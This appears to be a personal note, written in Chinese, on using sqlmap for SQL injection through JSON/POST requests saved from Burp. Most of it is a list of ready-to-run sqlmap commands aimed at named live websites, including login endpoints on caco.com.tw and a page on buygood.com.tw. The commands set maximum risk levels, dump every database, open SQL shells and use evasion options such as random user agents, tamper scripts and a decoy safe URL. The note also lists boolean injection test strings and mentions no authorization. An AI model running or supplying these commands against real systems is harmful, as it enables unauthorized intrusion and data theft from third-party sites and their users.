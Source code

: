 ```yaml
---
date: 2022-07-06
modified: 2022-07-08
---
```

---
parrent: [[sqlmap]]
---# sqlmap JSON/POST
從 burp 將整個 request 存成 txt
手動在 Host: 後綴加上 `:443` 用以指定 https
手動在要測試的參數的值，後綴加上 `*` 用以指定參數
`-r REQUESTFILE      Load HTTP request from a file`
```shell
$ sqlmap -r loginRequest2.txt -T4 --random-agent --current-db --dbs --tables --dump --level 5 --risk 3 --threads 10 --sql-shell --dbms=Mysql
```

使用帶 json 的，sqlmap 不支援 `-p` 指定參數，必須用星號

```shell
sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T5 -v3 --level 5 --risk 3  --tables --dump-all --sql-shell --force-ssl

sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T4 -v3 --level 5 --risk 3 --random-agent --force-ssl --tables --dump-all --hex

sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T4 -v3 --level 5 --risk 3 --random-agent --force-ssl --fresh-queries --tables --dump-all --no-cast

sqlmap -r try3woutstar.txt -T4 --random-agent --force-ssl --banner --current-db --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --fresh-queries --proxy="http://192.168.3.19:9527" -v 3 --randomize

sqlmap -r 1.txt -v 3 -T4 --force-ssl --banner --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --proxy="http://192.168.3.19:9527"

sqlmap -r try3.txt -T6 --random-agent --force-ssl --banner --current-db --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --dbms=Mysql --fresh-queries --no-cast --proxy="http://192.168.3.19:9527" -v 3 --safe-url="https://www.uniqlo.com" --safe-freq 10 --randomize --tamper="space2mysqlblank.py"

sqlmap -r try3.txt -T4 -v3 --level 5 --risk 3  --tables --dump-all 

sqlmap -u "https://www.buygood.com.tw/t.asp?d=1309275206" -T5 -v3 --level 5 --risk 3  --tables --dump-all --sql-shell --force-ssl --random-agent --delay 0.2 --ignore-redirects --tamper=apostrophemask
```
[SQLMap - Cheetsheat - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

' and '1'='1
' and '1'='2

-   --safe-url: 隔一会就访问一下的安全URL
-   --safe-post: 访问安全URL时携带的POST数据
-   --safe-req: 从文件中载入安全HTTP请求
-   --safe-freq: 每次测试请求之后都会访问一下的安全URL


AND boolean based found reflective values
![[2022-07-07_12-28.png]]